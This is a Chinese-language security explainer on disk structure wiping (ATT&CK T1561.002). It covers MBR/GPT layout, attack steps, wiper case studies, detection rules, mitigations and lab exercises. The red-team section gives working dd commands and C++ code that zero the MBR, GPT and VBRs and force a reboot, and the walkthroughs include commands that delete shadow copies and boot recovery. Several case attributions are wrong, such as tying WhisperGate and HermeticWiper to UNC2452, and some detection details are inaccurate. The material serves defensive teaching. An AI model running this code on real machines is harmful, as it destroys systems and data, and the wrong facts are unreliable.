

# 磁盘结构擦除 (T1561.002)

## 一句话通俗理解

> **不是擦掉硬盘上的文件内容，而是把整本笔记本的"目录页"和"封面"撕掉——内容可能还在，但系统找不到入口，整台机器再也启动不了。**

## 30秒速查卡

| 维度 | 你需要知道的 |
|------|-------------|
| 这是什么？ | 攻击者专门覆写磁盘的引导结构和分区表（MBR、GPT、VBR），让操作系统无法识别磁盘布局 |
| 为什么危险？ | 与 .001 擦内容不同，本技术主要破坏"系统启动能力"和"磁盘可识别性"，受害者开机即黑屏，但数据扇区可能完好，理论上可通过专业工具重建分区表恢复部分数据 |
| 谁需要关心？ | 系统管理员、安全运维、灾备恢复团队、取证分析师 |
| 你的第一步防御 | 对 MBR/GPT 头部扇区建立哈希基线，监控任何对 `\\.\PhysicalDrive0` 前 1MB 区域的写入 |
| 如果只做一件事 | 监控 `IOCTL_DISK_SET_DRIVE_LAYOUT_EX` ioctl 调用和非系统进程对磁盘第 0 扇区的写入 |

## 难度等级

⭐⭐⭐ 高级 - 需要熟悉磁盘布局、引导过程与分区表结构

## 前置知识检查

**读这个文件需要什么？**

- [ ] 磁盘布局基础（MBR、GPT、VBR、分区表）
- [ ] 操作系统引导过程（BIOS/UEFI 引导链）
- [ ] 文件系统元数据结构（MFT、superblock、boot sector）
- [ ] Windows 设备 IO 与 Linux ioctl 调用

## 技术描述

**磁盘结构擦除**（T1561.002）是 **磁盘擦除**（T1561）的一个具体变体，属于 **影响** 战术（TA0040）下的破坏性技术。攻击者通过覆写磁盘的引导结构（MBR、GPT、VBR）和分区表条目，使操作系统无法识别磁盘布局，导致系统无法启动且分区内的数据无法被正常访问。

### 具体怎么理解？

与父技术 T1561 相比，T1561.002 专注于**磁盘的"目录页"**——引导记录和分区表。它瞄准的是磁盘最关键的元数据结构，而非用户的文件数据本身。

打个比方：如果你把整块硬盘当成一本厚厚的笔记本，T1561.001 相当于用涂改液涂掉每一页的字（内容擦除）；而 T1561.002 相当于撕掉笔记本的目录、索引和章节标题——内容可能还在，但你完全找不到它们在哪里。结果是：开机后 BIOS/UEFI 找不到引导代码，操作系统不知道磁盘上有哪些分区，所有文件都"消失"了。但与 .001 不同，被擦除结构的磁盘上的文件数据扇区可能完好，专业数据恢复工具（如 TestDisk、R-Studio）有较大可能重建分区表并恢复部分数据。

### 技术原理

**关键磁盘结构简介：**

| 结构 | 位置 | 大小 | 作用 |
|------|------|------|------|
| MBR | 第 0 扇区（LBA 0） | 512 字节 | 包含引导代码（446B）+ 分区表（64B）+ 签名（2B） |
| GPT Header | LBA 1 | 512 字节 | GPT 分区表的头部，包含磁盘 GUID 和分区表位置 |
| GPT Partition Table | LBA 2-33 | 32 * 512 字节 | 128 个分区条目，每个 128 字节 |
| GPT Backup Header | 磁盘最后扇区 | 512 字节 | GPT 头部的备份，用于恢复 |
| VBR | 每个分区第一扇区 | 512 字节 | 卷引导记录，包含文件系统参数和引导代码 |
| MFT | NTFS 卷内某扇区 | 可变 | 主文件表，NTFS 的核心元数据 |
| Superblock | ext4 卷内某扇区 | 1024 字节 | ext4 文件系统的核心元数据 |

**Windows 平台执行流程：**

1. **打开物理磁盘**：`CreateFile(L"\\\\.\\PhysicalDrive0", GENERIC_WRITE, ...)`
2. **定位 LBA 0**：使用 `SetFilePointerEx(hDisk, 0, NULL, FILE_BEGIN)` 移动到磁盘开头
3. **覆写 MBR**：用 512 字节或更大缓冲区（通常 1MB）写入 0x00 或恶意引导代码，覆盖 MBR、GPT 头部、分区表条目
4. **覆写 VBR**：可选，遍历每个分区覆写其第一扇区，破坏文件系统引导
5. **调用 ioctl**：可选，调用 `IOCTL_DISK_SET_DRIVE_LAYOUT_EX` 通知内核分区表已变更
6. **强制重启**：调用 `ExitWindowsEx(EWX_REBOOT | EWX_FORCE)` 强制重启，让系统尝试从已破坏的 MBR 引导

**Linux 平台执行流程：**

1. **打开块设备**：`fd = open("/dev/sda", O_RDWR)`
2. **覆写 MBR/GPT**：`write(fd, zeros, 512)` 或更大缓冲区，覆写前 1MB
3. **通知内核**：`ioctl(fd, BLKRRPART, 0)` 重新读取分区表（让内核感知分区已消失）
4. **覆写 VBR**：遍历 `/proc/partitions` 中的每个分区，覆写其第一扇区
5. **触发内核崩溃**：可选，调用 `sync(); reboot(LINUX_REBOOT_CMD_RESTART)` 强制重启

**典型 wiper 的破坏模式：**

- **WhisperGate**（2022 乌克兰）：覆写 MBR 为恶意引导代码，显示勒索信息
- **NotPetya**（2017）：用 AES-128-CBC 加密 MBR 后覆写，伪装成勒索
- **HermeticWiper**（2022）：使用 `IOCTL_DISK_GET_DRIVE_LAYOUT_EX` 枚举分区后，覆写每个分区的关键元数据
- **Shamoon**（2012）：覆写 MBR 为政治图片，分区表被替换为不可识别数据

### 为什么有效？

这种技术之所以有效，是因为：

1. **影响立竿见影**：擦除 MBR 后下一次重启系统就完全无法启动，受害者立即陷入瘫痪
2. **快速**：仅需覆写前 1MB 数据，几秒内即可完成；而 .001 全盘擦除需数分钟
3. **难以恢复但可恢复**：分区表损坏让普通用户无法访问数据，但专业工具可重建分区表恢复部分文件
4. **制造混乱**：擦除结构后系统表现为"硬盘故障"，受害者常误判为硬件问题，延误应急响应

**过渡段：** 不要以为 GPT 比 MBR 安全——GPT 虽然有备份头部（位于磁盘最后扇区），但现代 wiper 会同时覆写主头部和备份头部，让 GPT 的恢复机制也失效。同样，UEFI 引导虽然不依赖 MBR，但仍依赖 EFI System Partition（ESP），wiper 通常会同时覆写 ESP 中的引导文件。

## 真实攻击流程

### 典型场景

攻击者在 **影响** 阶段使用 磁盘结构擦除 技术，以下是典型的攻击步骤：



**步骤详解：**

1. **获得 SYSTEM/root 权限** - 通过提权漏洞或已窃取的凭证获得最高权限。Windows 需要 SYSTEM 并启用 SeBackupPrivilege/SeRestorePrivilege；Linux 需要 root
2. **关闭 EDR/AV 防护** - 禁用安全软件，避免擦除器被拦截
3. **删除卷影副本与恢复机制** - `vssadmin delete shadows /all /quiet`、`bcdedit /set recoveryenabled No`、`bcdedit /set bootstatuspolicy ignoreallfailures`
4. **打开物理磁盘 raw 设备** - Windows: `CreateFile("\\\\.\\PhysicalDrive0", GENERIC_WRITE, ...)`；Linux: `open("/dev/sda", O_RDWR)`
5. **定位 LBA 0（MBR/GPT 头部）** - 使用 `SetFilePointerEx(hDisk, 0, NULL, FILE_BEGIN)`（Windows）或 `lseek(fd, 0, SEEK_SET)`（Linux）
6. **覆写磁盘前 1MB** - 用 1MB 缓冲区写入 0x00 或自定义数据，覆盖 MBR（LBA 0）、GPT 头部（LBA 1）、GPT 分区表（LBA 2-33）和第一个分区的 VBR
7. **覆写每个分区的 VBR** - 遍历分区，覆写每个分区的第一扇区，破坏文件系统引导
8. **调用 ioctl 通知内核** - Windows: `IOCTL_DISK_SET_DRIVE_LAYOUT_EX`；Linux: `BLKRRPART`
9. **强制重启系统** - `ExitWindowsEx(EWX_REBOOT | EWX_FORCE)` 或 `reboot(LINUX_REBOOT_CMD_RESTART)`
10. **系统无法启动** - BIOS/UEFI 找不到有效引导代码，显示 "Missing Operating System" 或 "No bootable device" 错误

## 攻击流程

```
获得 SYSTEM 权限 --> 关闭防护 --> 删除恢复点 --> 打开 raw 设备 --> 覆写 MBR/GPT --> 覆写 VBR --> 重启系统 --> 系统无法启动
```


**步骤详解：**

1. **获得 SYSTEM 权限**
   - 通俗描述：攻击者通过提权漏洞或已窃取的凭证获得目标主机的最高权限
   - 技术细节：Windows 上利用 PrintNightmare、CVE-2021-1675 等漏洞获得 SYSTEM；Linux 上利用内核漏洞获得 root
   - 常用工具：Mimikatz、PrintNightmare exploit、Cobalt Strike

2. **关闭防护**
   - 通俗描述：禁用安全软件避免擦除器被拦截
   - 技术细节：停止 Windows Defender 服务、卸载 EDR 传感器、添加排除项、使用直接系统调用绕过 hook
   - 常用工具：Defender Control、PCHunter、直接系统调用框架

3. **删除恢复点**
   - 通俗描述：断绝所有能恢复系统的后路
   - 技术细节：`vssadmin delete shadows /all /quiet`、`bcdedit /set {default} recoveryenabled No`、`bcdedit /set {default} bootstatuspolicy ignoreallfailures`、删除 `C:\Windows\Boot\` 下的启动文件
   - 常用工具：vssadmin、bcdedit、自定义脚本

4. **打开 raw 设备**
   - 通俗描述：直接对接物理硬盘，跳过文件系统层
   - 技术细节：Windows: `CreateFile(L"\\\\.\\PhysicalDrive0", GENERIC_WRITE, FILE_SHARE_READ|FILE_SHARE_WRITE, NULL, OPEN_EXISTING, 0, NULL)`；Linux: `open("/dev/sda", O_RDWR)`
   - 常用工具：自定义 C/C++ 二进制

5. **覆写 MBR/GPT**
   - 通俗描述：擦掉磁盘的"目录页"和"封面"
   - 技术细节：用 1MB 缓冲区写入 0x00 或自定义引导代码（如勒索信息），从 LBA 0 开始覆写。这会同时破坏：MBR（512B）、GPT 头部（512B）、GPT 分区表（32 * 512B = 16KB）、第一个分区 VBR
   - 常用工具：自定义 wiper 二进制

6. **覆写 VBR**
   - 通俗描述：擦掉每个分区的"卷引导记录"
   - 技术细节：遍历 `/proc/partitions` 或调用 `IOCTL_DISK_GET_DRIVE_LAYOUT_EX` 枚举分区，对每个分区覆写其第一扇区，破坏文件系统引导代码
   - 常用工具：自定义 wiper 二进制

7. **重启系统**
   - 通俗描述：让 BIOS 尝试从已破坏的 MBR 引导
   - 技术细节：Windows: `ExitWindowsEx(EWX_REBOOT | EWX_FORCE, 0)`；Linux: `sync(); reboot(LINUX_REBOOT_CMD_RESTART)`
   - 常用工具：系统调用 API

8. **系统无法启动**
   - 通俗描述：开机后 BIOS/UEFI 找不到有效引导代码
   - 技术细节：BIOS 显示 "Missing Operating System" 或 "No bootable device"；UEFI 找不到 `\EFI\BOOT\BOOTX64.EFI`，显示 "No bootable option"
   - 常用工具：无（系统已无法启动）

## 真实案例

### 案例1：WhisperGate - MBR 覆写伪装勒索（2022）

- **时间**：2022 年 1 月
- **目标**：乌克兰政府机构、金融机构
- **攻击组织**：UNC2452（疑似 Sandworm Team 关联）
- **手法**：WhisperGate 通过恶意 VBA 宏和供应链攻击进入乌克兰系统。其第一阶段 wiper 直接覆写磁盘 MBR 为恶意引导代码（显示勒索信息，要求支付 10 万美元比特币）。第二阶段则遍历用户文档目录，将文件内容覆写为 0xCC。WhisperGate 的特殊之处在于：MBR 擦除后显示的是勒索信息，但文件级擦除（第二阶段）才是真正的破坏——受害者即使支付赎金也无法恢复文件。
- **影响**：乌克兰多家政府机构和银行系统瘫痪，开机即显示勒索信息
- **参考链接**：[Microsoft - WhisperGate Analysis](https://www.microsoft.com/en-us/security/blog/2022/01/15/destructive-malware-targeting-ukrainian-organizations/)

### 案例2：NotPetya - MBR 加密擦除（2017）

- **时间**：2017 年 6 月 27 日
- **目标**：乌克兰金融、能源、政府（蔓延至全球）
- **攻击组织**：Sandworm Team
- **手法**：NotPetya 通过 M.E.Doc 软件更新供应链进入乌克兰系统。获得 SYSTEM 权限后，wiper 模块使用 AES-128-CBC 算法加密 MBR 第 0 扇区（而非简单覆写为 0）。这种"加密"操作伪装成勒索软件，受害者看到勒索信息要求支付 300 美元比特币。但攻击者根本没有保存解密密钥，所以即使支付赎金也无法恢复——这是不可逆的擦除。NotPetya 在 60 分钟内瘫痪了马士基、默克、联邦快递等多家跨国公司。
- **影响**：全球超过 12000 台机器被擦除，总损失估计超过 100 亿美元
- **参考链接**：[MITRE ATT&CK - NotPetya](https://attack.mitre.org/software/S0368/)

### 案例3：HermeticWiper - GPT 分区表精准破坏（2022）

- **时间**：2022 年 2 月 23 日
- **目标**：乌克兰金融机构、政府机构
- **攻击组织**：UNC2452（疑似 Sandworm Team 关联）
- **手法**：HermeticWiper 通过组策略分发到目标网络所有机器。它先调用 `FSCTL_DISMOUNT_VOLUME` 强制卸载所有非系统卷，然后使用 `DeviceIoControl` 配合 `IOCTL_DISK_GET_DRIVE_LAYOUT_EX` 枚举磁盘分区，定位每个分区的起始扇区，最后用自定义 1MB 缓冲区批量覆写分区内的关键数据结构（MFT、$Bitmap、文件系统元数据）。HermeticWiper 主要破坏文件系统底层结构（分区表和文件系统元数据），文件数据扇区并未被覆写，但分区表已不可识别，系统无法启动。
- **影响**：乌克兰多家银行和政府机构系统瘫痪，业务中断持续数日
- **参考链接**：[ESET - HermeticWiper Analysis](https://www.welivesecurity.com/2022/03/01/isaacwiper-hermeticwizard-wiper-malware-ukraine/)

### 案例4：Shamoon - MBR 政治化覆写（2012）

- **时间**：2012 年 8 月
- **目标**：Saudi Aramco（沙特阿美石油公司）
- **攻击组织**：APT33（Elfin，疑似伊朗背景）
- **手法**：Shamoon 通过钓鱼邮件进入 Saudi Aramco 内网。wiper 模块使用 `\\.\PhysicalDrive0` 直接覆写 MBR 和分区表，文件内容则被替换为燃烧的美国国旗图片。Shamoon 的特殊之处在于：MBR 被替换为政治性图片而非 0x00，开机显示政治信息。Shamoon 攻击共影响了 Aramco 30000 台工作站，公司花了 5 个月才完全恢复。
- **影响**：30000 台工作站被擦除，全球最大石油公司业务中断 2 周
- **参考链接**：[MITRE ATT&CK - Shamoon](https://attack.mitre.org/software/S0142/)

### 案例5：Olympic Destroyer - MBR/VBR 擦除（2018）

- **时间**：2018 年 2 月 9 日（平昌冬奥会开幕式当天）
- **目标**：平昌冬奥会 IT 基础设施
- **攻击组织**：UNC2452（疑似 Sandworm Team）
- **手法**：Olympic Destroyer 在开幕式前几小时激活，通过 PsExec 横向分发到所有奥运 IT 系统服务器。wiper 模块覆写 MBR、VBR 和 Active Directory 数据库文件，让所有服务器同时瘫痪。开幕式期间官网无法访问、WiFi 无法连接、票务系统瘫痪，造成极大混乱。攻击者还在擦除前删除了 Active Directory 中所有服务账户，让恢复工作雪上加霜。
- **影响**：平昌冬奥会开幕式 IT 系统瘫痪数小时
- **参考链接**：[Kaspersky - Olympic Destroyer Analysis](https://www.kaspersky.com/resource-center/threats/olympic-destroyer)

## 红队视角

> ⚠️ **免责声明**：以下内容仅用于合法的安全测试、渗透测试和教育目的。未经授权对他人系统进行测试是违法行为。

### 实战技巧

1. **Linux MBR 擦除最小化命令**：
   ```bash
   # 仅覆写 MBR（512 字节），让磁盘无法启动
   dd if=/dev/zero of=/dev/sda bs=512 count=1 conv=fdatasync
   
   # 覆写前 1MB（包括 MBR、GPT 头部、GPT 分区表、第一个 VBR）
   dd if=/dev/zero of=/dev/sda bs=1M count=1 conv=fdatasync
   
   # 同时覆写 GPT 备份头（磁盘最后 1MB）
   SIZE=$(blockdev --getsize64 /dev/sda)
   dd if=/dev/zero of=/dev/sda bs=1M count=1 seek=$((SIZE/1024/1024 - 1)) conv=fdatasync
   ```

2. **Windows C++ MBR 擦除代码**：
   ```cpp
   #include <windows.h>
   int main() {
       HANDLE hDisk = CreateFileW(L"\\\\.\\PhysicalDrive0",
           GENERIC_WRITE, FILE_SHARE_READ|FILE_SHARE_WRITE,
           NULL, OPEN_EXISTING, 0, NULL);
       char buf[1<<20] = {0};  // 1MB 缓冲区，全 0
       LARGE_INTEGER offset = {0};
       SetFilePointerEx(hDisk, offset, NULL, FILE_BEGIN);
       DWORD written;
       WriteFile(hDisk, buf, sizeof(buf), &written, NULL);
       FlushFileBuffers(hDisk);
       CloseHandle(hDisk);
       
       // 强制重启
       ExitWindowsEx(EWX_REBOOT | EWX_FORCE, 0);
       return 0;
   }
   ```

3. **覆写 MBR 为自定义引导代码**（模拟 WhisperGate）：
   ```cpp
   // 引导代码 + "支付 10000 美元比特币到..." 消息
   unsigned char malicious_mbr[512] = {
       0xEB, 0x4C, 0x90, /* ... 引导代码 ... */
       /* ... 勒索信息 ASCII ... */
       0x00, 0x00, /* 分区表清零 */
       0x55, 0xAA  /* MBR 签名保留 */
   };
   HANDLE hDisk = CreateFileW(L"\\\\.\\PhysicalDrive0",
       GENERIC_WRITE, FILE_SHARE_READ|FILE_SHARE_WRITE,
       NULL, OPEN_EXISTING, 0, NULL);
   DWORD written;
   WriteFile(hDisk, malicious_mbr, 512, &written, NULL);
   FlushFileBuffers(hDisk);
   ```

4. **遍历分区覆写 VBR**（模拟 HermeticWiper）：
   ```cpp
   DRIVE_LAYOUT_INFORMATION_EX layout;
   DeviceIoControl(hDisk, IOCTL_DISK_GET_DRIVE_LAYOUT_EX,
       NULL, 0, &layout, sizeof(layout), &bytesReturned, NULL);
   
   for (DWORD i = 0; i < layout.PartitionCount; i++) {
       LARGE_INTEGER offset;
       offset.QuadPart = layout.PartitionEntry[i].StartingOffset.QuadPart;
       SetFilePointerEx(hDisk, offset, NULL, FILE_BEGIN);
       WriteFile(hDisk, zeroBuf, 512, &written, NULL);  // 覆写 VBR
   }
   ```

### 常用工具

| 工具名称 | 用途 | 平台 | 链接 |
|----------|------|------|------|
| dd | Linux 块设备擦除 | Linux | 系统内置 |
| diskpart clean | Windows 磁盘结构清空 | Windows | 系统内置 |
| TestDisk | 分区表恢复（防御方） | 跨平台 | https://www.cgsecurity.org/wiki/TestDisk |
| GParted Live | Linux 分区恢复 | Linux Live CD | https://gparted.org/livecd.php |
| SystemRescue | 系统恢复 Live CD | Linux | https://www.system-rescue.org/ |

### 注意事项

- 实验时务必在隔离虚拟机中执行，且需对虚拟机磁盘做快照——但虚拟机快照无法抵御 raw disk 写入
- UEFI 系统不依赖 MBR 引导，但仍依赖 EFI System Partition（ESP），wiper 通常同时覆写 ESP
- GPT 有备份头部，若只覆写主头部可被恢复；必须同时覆写主头部和备份头部
- 擦除 MBR 后立即重启可避免被检测；若延迟重启，系统日志可能记录分区表异常
- 部分服务器使用硬件 RAID 控制器，擦除 MBR 后 RAID 阵列可能完全不可识别

## 蓝队视角

### 检测要点

1. **MBR/GPT 扇区写入**
   - 日志来源：Sysmon Event ID 9（RawAccessRead）、ETW `Microsoft-Windows-Kernel-Disk`
   - 关注字段：写入偏移量是否在 0-1MB 范围内（MBR/GPT 区域）
   - 异常特征：非 diskmgmt.exe、vssvc.exe 进程对 LBA 0-2048 的写入

2. **可疑 ioctl 调用**
   - 日志来源：Windows ETW `Microsoft-Windows-Kernel-Disk`
   - 关注字段：`IOCTL_DISK_SET_DRIVE_LAYOUT_EX`、`FSCTL_DISMOUNT_VOLUME`
   - 异常特征：非 diskmgmt、diskpart 进程发起的分区修改 ioctl

3. **MBR/GPT 完整性**
   - 日志来源：自定义 FIM（File Integrity Monitoring）工具
   - 关注字段：第 0 扇区哈希值、第 1 扇区哈希值、最后扇区哈希值
   - 异常特征：非计划内的 MBR/GPT 哈希变更

4. **可疑 BCDEdit 命令**
   - 日志来源：Sysmon Event ID 1（ProcessCreation）
   - 关注字段：`bcdedit /set recoveryenabled No`、`bcdedit /set bootstatuspolicy ignoreallfailures`
   - 异常特征：非装机阶段、非运维上下文的 BCDEdit 修改

### 监控建议

- **MBR/GPT 哈希基线**：使用 PowerShell 或自定义脚本每周对磁盘前 34 扇区（MBR+GPT）做哈希基线，发现变更即告警
  ```powershell
  # 计算 MBR 哈希基线
  $mbr = Get-Content -Path "\\.\PhysicalDrive0" -Encoding Byte -TotalCount 512
  $hash = [System.Security.Cryptography.SHA256]::Create().ComputeHash($mbr)
  ```

- **Sysmon 配置**：添加对 `\\.\PhysicalDrive*` 设备的访问监控规则，将 Event ID 9 设为高严重级别告警

- **ETW 监控**：启用 `Microsoft-Windows-Kernel-Disk` provider，监控所有 ioctl 调用

- **BCDEdit 监控**：在 SOC 中配置告警规则，任何 `bcdedit` 命令执行都需人工确认

- **启动失败告警**：监控 Windows Event ID 1001（BugCheck）和 Linux `dmesg` 中的引导错误

## 避坑指南

组织中最危险盲区：**认为 UEFI + GPT + Secure Boot 就能抵御 MBR 擦除**。

实际情况是：
1. UEFI 系统不依赖 MBR，但仍依赖 EFI System Partition（ESP），wiper 会同时覆写 ESP
2. GPT 有备份头部，但现代 wiper 会同时覆写主头部和备份头部
3. Secure Boot 只能防止未签名引导代码加载，但不能防止 MBR/ESP 被擦除——擦除后系统仍无法启动，只是不会加载恶意引导代码而已
4. 即使有 TPM 加密的系统磁盘（如 BitLocker），擦除 MBR/ESP 后系统仍无法启动，且 TPM 解锁需要原始引导环境

唯一可靠防御仍然是**离线/不可变备份**。

## 检测建议

### 网络层检测

**检测方法：** 监控擦除器部署阶段产生的横向移动流量，以及擦除开始后服务突然断连的特征。

**具体规则/命令示例：**
```bash
# 检测 PsExec 风格的批量横向分发（擦除器部署前奏）
zeek -C -r capture.pcap conn.log | \
  awk '$9 ~ /445|139/' | \
  awk '{print $3, $5}' | sort | uniq -c | sort -rn | head -20

# 检测短时间内大量主机同时失联（擦除器同时执行的副作用）
tshark -r capture.pcap -Y "tcp.flags.reset==1" -T fields \
  -e frame.time -e ip.src -e ip.dst 2>/dev/null | \
  awk '{print $1, $2}' | sort | uniq -c | sort -rn | head -20
```

### 主机层检测

**检测方法：** 监控对磁盘前 1MB 的写入、可疑 ioctl 调用、BCDEdit 修改。

**Windows事件ID：**
- Sysmon Event ID 9（RawAccessRead）：进程访问 raw 磁盘设备
- Sysmon Event ID 1（ProcessCreation）：监控 bcdedit、vssadmin 等命令
- Windows Security Event ID 4663（对象访问）：对 `\\.\PhysicalDrive*` 的写入审计
- Windows System Event ID 1001（BugCheck）：系统崩溃

**具体命令示例：**
```powershell
# 检查 Sysmon 中所有访问 raw 磁盘的进程
Get-WinEvent -LogName "Microsoft-Windows-Sysmon/Operational" -FilterXPath \
  "*[System[EventID=9]]" -MaxEvents 100 | \
  Format-Table TimeCreated, @{l="Process";e={$_.Properties[3].Value}}, \
  @{l="Device";e={$_.Properties[5].Value}} -Wrap

# 监控可疑 BCDEdit 命令（擦除器常伴随行为）
Get-WinEvent -FilterHashtable @{LogName='Microsoft-Windows-Sysmon/Operational';ID=1} | \
  Where-Object {$_.Message -match "bcdedit.*recoveryenabled.*No|bcdedit.*bootstatuspolicy.*ignoreallfailures"} | \
  Format-Table TimeCreated, @{l="Process";e={$_.Properties[4].Value}} -Wrap

# 计算 MBR 哈希基线并检测变更
$bytes = [System.IO.File]::ReadAllBytes("\\.\PhysicalDrive0")[0..511]
$currentHash = [System.BitConverter]::ToString(
    [System.Security.Cryptography.SHA256]::Create().ComputeHash($bytes))
Write-Host "当前 MBR 哈希: $currentHash"
```

**Linux auditd 规则：**
```bash
# 监控 raw 块设备访问
auditctl -w /dev/sda -p wa -k raw_disk_access

# 监控 dd、shred 命令执行
auditctl -w /usr/bin/dd -p x -k dd_execution

# 检查 MBR 哈希（使用 dd + sha256sum）
dd if=/dev/sda bs=512 count=1 2>/dev/null | sha256sum
dd if=/dev/sda bs=512 count=34 2>/dev/null | sha256sum  # MBR + GPT 主区域

# 查询访问记录
ausearch -k raw_disk_access | tail -50
```

### 应用层检测

**Sigma规则示例：**
```yaml
title: 检测磁盘结构擦除行为
status: experimental
description: 检测非系统进程对 MBR/GPT 区域的写入或可疑 BCDEdit 修改
logsource:
    category: process_creation
    product: windows
detection:
    selection_dd:
        CommandLine|contains:
            - 'dd if='
            - 'dd.exe'
    selection_vssadmin:
        CommandLine|contains|all:
            - 'vssadmin'
            - 'delete'
            - 'shadows'
    selection_bcdedit_recovery:
        CommandLine|contains|all:
            - 'bcdedit'
            - 'recoveryenabled'
            - 'No'
    selection_bcdedit_bootstatus:
        CommandLine|contains|all:
            - 'bcdedit'
            - 'bootstatuspolicy'
            - 'ignoreallfailures'
    selection_diskpart:
        CommandLine|contains|all:
            - 'diskpart'
            - 'clean'
    condition: selection_dd or selection_vssadmin or selection_bcdedit_recovery or selection_bcdedit_bootstatus or selection_diskpart
level: high
tags:
    - attack.t1561
    - attack.t1561.002
    - attack.impact
```

## 缓解措施

### 优先级1：关键措施

**措施名称：** 实施离线/不可变备份 + MBR/GPT 完整性监控

**具体实施步骤：**
1. 实施 3-2-1 备份策略：3 份数据、2 种介质、1 份离线
2. 至少一份备份为 air-gapped（完全离线）或 immutable（不可变）
3. 使用 WORM 介质（如 AWS S3 Object Lock、Azure Immutable Blob Storage）
4. 对所有服务器和工作站的 MBR/GPT 扇区建立哈希基线，定期校验完整性
5. 部署 FIM 工具，对引导扇区做实时监控

**配置示例：**
```powershell
# 启用 Windows Defender Application Guard 防止非授权引导修改
Set-MpPreference -EnableControlledFolderAccess Enabled

# 配置 MBR 完整性监控计划任务
$trigger = New-ScheduledTaskTrigger -Daily -At 3am
$action = New-ScheduledTaskAction -Execute "PowerShell.exe" `
  -Argument "-File C:\Scripts\Check-MbrHash.ps1"
Register-ScheduledTask -TaskName "MBR Integrity Check" `
  -Trigger $trigger -Action $action -RunLevel Highest
```

### 优先级2：重要措施

**措施名称：** 限制对原始磁盘设备的访问

**具体实施步骤：**
1. 通过组策略限制 `SeManageVolumePrivilege`、`SeBackupPrivilege` 仅授予必要系统服务
2. 部署 Application Control 阻止非白名单进程访问 raw 设备
3. 启用 Windows Defender Exploit Guard 的"受控文件夹访问"
4. 禁用未授权的 `bcdedit` 命令执行（通过 AppLocker）

### 优先级3：建议措施

**措施名称：** 部署早期检测告警

**具体实施步骤：**
1. 部署 Sysmon 规则监控 Event ID 9（RawAccessRead）
2. 监控 `bcdedit /set recoveryenabled No` 命令
3. 配置 EDR 行为规则：检测任何对磁盘前 1MB 区域的写入
4. 配置 SOC 监控：检测 `diskpart clean`、`dd if=...of=/dev/sda` 等高危命令

### MITRE ATT&CK 缓解措施映射

| 缓解措施ID | 缓解措施名称 | 适用性 | 说明 |
|------------|-------------|--------|------|
| M1053 | 数据备份 | 适用 | 离线/不可变备份是抵御擦除的最有效手段 |
| M1047 | 审计 | 适用 | 审计对原始磁盘设备的访问 |
| M1018 | 用户账户管理 | 适用 | 限制管理员权限授予范围 |
| M1026 | 权限私有化 | 部分适用 | 通过 SELinux/AppArmor 限制块设备访问 |

## 动手实验

> ⚠️ **重要提示**：所有实验必须在隔离的虚拟机环境中进行，禁止对生产系统或真实磁盘执行擦除命令。建议先对虚拟机做快照。

### 实验环境准备

**推荐靶场/实验平台：**

| 平台名称 | 类型 | 难度 | 链接 |
|----------|------|------|------|
| Cyber Defenders - Wiper Hunting | 数字取证靶场 | 高级 | https://cyberdefenders.org/ |
| TryHackMe - DFIR | 虚拟靶场 | 中级 | https://tryhackme.com/ |
| SystemRescue | 系统恢复 Live CD | 中级 | https://www.system-rescue.org/ |

**所需工具：**
- VirtualBox/VMware（虚拟机）
- SystemRescue / Kali Linux Live CD
- TestDisk（分区表恢复）
- FTK Imager / Autopsy（磁盘取证）

### 实验1：观察 MBR 擦除效果（中级）

**实验目标：** 理解 MBR 擦除对系统启动的影响。

**实验步骤：**
1. 创建一个 Windows 虚拟机，安装系统后关机
2. 对虚拟机磁盘做快照
3. 启动虚拟机进入 Linux Live CD
4. 使用 `dd if=/dev/zero of=/dev/sda bs=512 count=1 conv=fdatasync` 擦除 MBR
5. 重启虚拟机，观察启动行为（应显示 "Missing Operating System"）
6. 再次进入 Live CD，使用 TestDisk 重建分区表
7. 再次重启，验证系统能否启动

**预期结果：** 擦除 MBR 后系统无法启动；用 TestDisk 重建分区表后系统可启动（因为文件数据扇区未被破坏）。

**学习要点：** 理解 .002 与 .001 的关键区别——.002 主要破坏启动能力，文件数据可能完好。

### 实验2：模拟 WhisperGate 行为（高级）

**实验目标：** 理解 wiper 覆写 MBR 为自定义引导代码的工作机制。

**实验步骤：**
1. 创建一个 Linux 虚拟机，安装系统后关机
2. 对虚拟机磁盘做快照
3. 启动虚拟机进入 Live CD
4. 编写一个简单的 512 字节引导代码（仅显示一条消息）
5. 使用 `dd if=custom_mbr.bin of=/dev/sda bs=512 count=1 conv=fdatasync` 覆写 MBR
6. 重启虚拟机，观察启动行为（应显示自定义消息）
7. 用 TestDisk 重建原始 MBR

**预期结果：** 擦除 MBR 后开机显示自定义消息；用 TestDisk 重建后可正常启动。

**学习要点：** 理解 MBR 在引导过程中的作用，以及 wiper 如何利用 MBR 显示政治或勒索信息。

### 实验3：GPT 备份头部恢复实验（高级）

**实验目标：** 验证 GPT 备份头部的恢复能力。

**实验步骤：**
1. 创建一个使用 GPT 分区的 Linux 虚拟机
2. 仅覆写 GPT 主头部（LBA 1）：`dd if=/dev/zero of=/dev/sda bs=512 count=1 seek=1 conv=fdatasync`
3. 尝试用 `gdisk` 恢复（应能从备份头部恢复）
4. 同时覆写主头部和备份头部
5. 再次尝试恢复（应失败）

**预期结果：** 仅覆写主头部时 gdisk 可恢复；同时覆写主备头部时无法恢复。

**学习要点：** 理解为什么现代 wiper 会同时覆写主备 GPT 头部。

## 术语解释

| 术语 | 英文原名 | 通俗解释 |
|------|----------|----------|
| MBR | Master Boot Record | 主引导记录，磁盘第 0 扇区，包含引导代码和分区表。相当于磁盘的"目录封面" |
| GPT | GUID Partition Table | GUID 分区表，MBR 的现代替代方案。使用 64 位 LBA 寻址 |
| GPT Header | GPT Header | GPT 的头部，位于 LBA 1，包含磁盘 GUID 和分区表位置 |
| GPT Backup Header | GPT Backup Header | GPT 头部的备份，位于磁盘最后扇区，用于恢复 |
| VBR | Volume Boot Record | 卷引导记录，每个分区第一扇区，包含文件系统参数和引导代码 |
